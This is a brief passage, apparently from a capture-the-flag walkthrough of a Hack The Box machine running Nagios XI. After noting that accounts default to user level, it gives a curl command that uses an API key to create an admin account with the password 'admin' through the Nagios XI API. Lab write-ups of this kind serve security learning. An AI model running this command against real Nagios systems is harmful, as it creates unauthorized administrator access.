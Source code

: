 ![image35](../resources/ccc32aaab3d04c43b5a1f6b4d3d45da9.png)

Auth_level is by default = user

- Change auth_level = admin:

```bash
curl -X POST -k "https://nagios.monitored.htb/nagiosxi/api/v1/system/user?apikey=IudGPHd9pEKiee9MkJ7ggPD89q3YndctnPeRQOmS2PQ7QIrbJEomFVG6Eut9CHLL&pretty=1" -d "username=admin&password=admin&auth_level=admin&name=john%20smit&email=john2@localhost"

```
